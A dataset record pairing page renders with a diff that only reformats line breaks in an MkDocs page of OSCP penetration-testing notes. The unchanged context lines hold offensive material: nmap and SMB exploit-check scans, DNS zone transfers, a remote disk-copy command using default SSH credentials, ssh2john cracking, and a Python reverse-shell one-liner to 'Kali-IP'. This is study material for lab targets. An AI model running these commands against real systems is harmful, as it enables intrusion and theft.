

Before and after one commit to jackyho522/obsidian-notes, an MkDocs documentation site: the page built from docs/OSCP_notes/Note 1.md, in a window 1280 px wide and 900 px high. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update Note 1.md

````diff
--- a/docs/OSCP_notes/Note 1.md
+++ b/docs/OSCP_notes/Note 1.md
@@ -3,7 +3,7 @@
 [Hacktricks](https://book.hacktricks.xyz/) <br/>
 [GTFOBins](https://gtfobins.github.io/) <br/>
 [WADComs](https://wadcoms.github.io/) <br/>
-<br/>
+
 ## Easy win
 nmap scan <br/>
 hydra ssh/ftp/rdp etc protocols<br/>
@@ -20,7 +20,7 @@ LFI/RFI?<br/>
 Cookies? (bypass login? rce?)<br/>
 Create wordlists for brute force (cewl)<br/>
 Searchsploit?<br/>
-<br/>
+
 ## Port Scanning
 Options:<br/>
 -sT connect scan<br/>
@@ -34,7 +34,7 @@ Options:<br/>
 -p- scans all TCP ports<br/>
 -Pn SOMETIMES causes FALSE POSITIVE, skip the initial stage that checks if the host is up<br/>
 -oG saves the output and uses grep to filter the results to only show lines that contain the word "open" in the "Ports" field
-<br/>
+
 ## Banner Grabbing
 ```bash
 nc -vn <IP> Port
@@ -70,16 +70,16 @@ nc -vn <IP> Port
 - Port 2049 - NFS service <br/>
 	- **NFS** is a system designed for **client/server** that enables users to seamlessly access files over a network as though these files were located within a local directory.<br/>
 
-<br/>
+
 ## Initial Scan
 nmap -sC -sV -oA nmap/initial (ip address) <br/>
-(default script)(version detection of services)(output to nmap initial) <br/>
+(default script)(version detection of services)(output to nmap initial)
 ## Detail Scan
 nmap --script all -sC -sV -O -o fulltcpnmap -A -T4 -p- 10.129.77.60 (detail) <br/>
 nmap -sC -sV -O -p- -oA nmap/full 10.10.10.3(detail) <br/>
 enum4linux <br/>
 nmap -A -sV -sU -sC -p- -o fulludpnmap 10.10.10.xxx <br/>
-udp scan <br/>
+udp scan
 ## SMB Quick Check
 ```
 nmap -p 445 -vv --script=smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse 10.129.77.60
@@ -98,7 +98,6 @@ https://github.com/dievus/threader3000
 ```
 nmap -p 53 10.10.10.1-254 -vv -oA dc
 ```
-<br/>
 ## Gobuster, FFUF and dnsrecon
 ```
 gobuster dns -d cronos.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
@@ -130,7 +129,7 @@ Dig Deeper:<br/>
 dig axfr cronos.htb @10.10.10.13
 ```
 retrieve the entire DNS zone data for the "cronos.htb" domain from the DNS server located at the IP address "10.10.10.13".<br/>
-(AXFR) DNS protocol operation used to transfer the entire zone data from a primary DNS server to a secondary DNS server.<br/>
+(AXFR) DNS protocol operation used to transfer the entire zone data from a primary DNS server to a secondary DNS server.
 
 ## Active Directory Check
 ```bash
@@ -307,9 +306,7 @@ Make sure post/get?<br/>
 TCPDUMP<br/>
 icmp listener<br/>
 tcpdump -ni tun0 icmp<br/>
-tcpdump -xvi tun0 -c 10<br/>
-<br/>
-
+tcpdump -xvi tun0 -c 10
 ## USB
 grab a copy of the USB disk:<br/>
 ```
@@ -317,8 +314,7 @@ sshpass -p raspberry ssh pi@10.10.10.48 "sudo dd if=/dev/sdb | gzip -1 -" | dd o
 ```
 read all of /dev/sdb and print it to STDOUT<br/>
 compress the file read from STDIN (-) and print the result to STDOUT,write that output to usb.gz<br/>
-extundelete usb --restore-all<br/>
-<br/>
+extundelete usb --restore-all
 ## Port Knocking
 TCP<br/>
 knock -v 192.168.0.116 4 27391 159<br/>
@@ -327,8 +323,7 @@ UDP<br/>
 knock -v 192.168.0.116 4 27391 159 -u<br/>
 <br/>
 TCP & UDP<br/>
-knock -v 192.168.1.111 159:udp 27391:tcp 4:udp<br/>
-<br/>
+knock -v 192.168.1.111 159:udp 27391:tcp 4:udp
 ## Brute Force
 ```
 /usr/share/john/ssh2john.py key > hash
@@ -396,7 +391,6 @@ https://gchq.github.io/CyberChef/ (Swiss Knife)<br/>
 https://tio.run/# (debug)<br/>
 Full interactive shell with zsh<br/>
 https://blog.mrtnrdl.de/infosec/2019/05/23/obtain-a-full-interactive-shell-with-zsh.html
-<br/>
 
 ## Upgrade shell
 ```
@@ -427,7 +421,6 @@ python3 -c 'import pty; pty.spawn("/bin/bash")'
 ```
 python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("Kali-IP",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
 ```
-<br/>
 ## Flags
 Windows:<br/>
 ```powershell
````
